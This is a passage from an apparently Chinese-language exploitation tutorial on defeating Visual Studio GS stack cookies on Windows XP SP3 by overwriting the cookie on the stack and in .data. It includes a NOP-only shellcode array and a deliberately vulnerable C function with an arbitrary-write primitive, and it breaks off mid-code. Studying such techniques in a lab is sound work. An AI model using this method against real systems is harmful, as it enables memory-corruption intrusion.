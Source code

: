 经过push->pop->pop->retn, 0x0012fe9c弹给eip, 开始执行shellcode, pwn~
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x007-010.png)


## 0x008 同时替换栈和.data中的Cookie突破GS

>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  

新建一个工程, 贴入以下代码
```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i<0x9995)
	{
		char *buf=s+i;
		*buf+*src;
		*(buf+1)=*(src+1);
		*(buf+2)=*(src+2);
		*(buf+3)=*(src+3);
```